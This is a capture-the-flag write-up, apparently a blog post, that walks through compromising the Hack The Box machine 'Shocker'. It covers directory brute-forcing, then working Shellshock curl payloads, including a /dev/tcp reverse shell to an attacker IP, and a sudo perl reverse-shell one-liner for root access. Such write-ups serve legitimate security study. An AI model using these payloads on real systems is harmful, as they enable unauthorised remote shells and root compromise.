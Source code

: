 ```yaml
---
layout: single
title: "HTB - Shocker"
last_modified_at: 2021-07-01 01:00:00 -0700
categories: writeups
tags: [HTB]
share: true
date: 2021-02-07 01:00:00 -0700
toc: true
toc_label: "Table of Contents"
classes: wide
---
```

# HTB - Shocker
![Shocker picture](/assets/images/writeups/shocker.png){: .align-center}

**IP**: 10.129.97.115 \
**Completed on**: February 7, 2021 \
**Time to Complete**: 48 minutes \
**OS**: Linux 

**Note!** Added shocker IP to /etc/hosts as `shocker shocker.htb`
{: .notice--success}

## Summary
The shocker Hack The Box machine shows how severe a shellshock vulnerability can be. After enumeration, a bash script hosted within /cgi/ directory can be identified which is vulnerable to shellshock. Using curl I sent payloads to verify vulnerability and granted me user level access. Privilege escalation was done through permissions misconfiguration with perl binary, since user was allowed to run it as root without a password.

## Enumeration

### Nmap
Nmap version and port scan with default scripts enabled found only 2 ports open (`-sV -sC`):
* 80 (Apache 2.4.18)
* 2222 (OpenSSH 7.2p2)

### Enumerating Apache Server
Routing to `http://shocker.htb` I encountered a bug, like, an actual picture of a bug:

![Shocker root http server picture](/assets/images/writeups/shocker-http.png)

### Forced Directory

The default page is a static HTML page with a picture. Trying to route to index.html vs index.php we can confirm the site is using html extension. Since we have nothing else to go by, I ran a gobuster to force browse directories:

**Note!** The image does not show but /cgi-bin/ returned a 404 response.
{: .notice--success}

```
sudo gobuster dir -x html -u http://shocker.htb/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![Gobuster with general wordlist using html extension picture](/assets/images/writeups/shocker-gobuster1.png)

I was not able to find anything interesting, but knowing the machine is called “Shocker” I went ahead and ran a dirbuster with CGIs wordlist even though /cgi-bin/ was returning a 404 and discovered a bash file:

```
sudo gobuster dir -u http://shocker.htb/ -w ~/SecLists/Discovery/Web-Content/CGIs.txt
```

![Gobuster with cgi-bin wordlist picture](/assets/images/writeups/shocker-gobuster2.png)

Routing to the site (`http://shocker.htb/cgi-bin/user.sh`) it asks for user.sh to download, using curl I was able to see the script's content, it was running a uptime script and outputting the content when reached:

![Picture of curl to the user shell file](/assets/images/writeups/shocker-user-sh.png)

## Initial Foothold

With the found shell script, I ran a POC Shellshock payload using curl that should list the home directory (`ls`):

```
curl -A "() { :;};echo;/bin/ls -la /home" http://shocker.htb/cgi-bin/user.sh
```

![Picture of curl to the user shell file outputting ls](/assets/images/writeups/shocker-shock-ls.png)

The POC confirmed that shellshock is possible against this script. I then utilize this vulnerability to create a reverse shell with `/bin/bash`:

```
# Don’t forget to open a netcat listener using: sudo nc -nlvp 7000
curl -A "() { :;};echo;/bin/bash -i > /dev/tcp/10.10.14.69/7000 0<&1 2>&1" http://shocker.htb/cgi-bin/user.sh
```
![Picture of curl to the user shell creating a reverse shell](/assets/images/writeups/shocker-shock-reverse.png)

This granted me a user shell as `shelly`. Now lets move into enumerate state again to privilege escalate.

## Privilege Escalation

I used `sudo -l` to list shelly's sudo privileges, we see she is able to run perl as root without a password:

![Picture of sudo -l command through shelly user](/assets/images/writeups/shocker-sudo.png)

Perfect! Using this I created a privilege reverse shell using perl to get root:

```
# Don’t forget to open a netcat listener using: sudo nc -nlvp 7001
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.69";$p=7001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Picture of perl to privilege escalate](/assets/images/writeups/shocker-perl.png)

That’s it! Although this box was easier, it goes to show how severe ShellShock vulnerability was during 2014-2018. 

According to Security Intelligence's August 2020 [article](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/) it's still relevant in 2020 considering there is numerous vulnerable servers. The article points to Politico's January 2020 [news article](https://www.politico.com/news/2020/01/16/georgia-election-systems-could-have-been-hacked-before-2016-vote-100334) which reported that Georgia election systems was still vulnerable to ShellShock.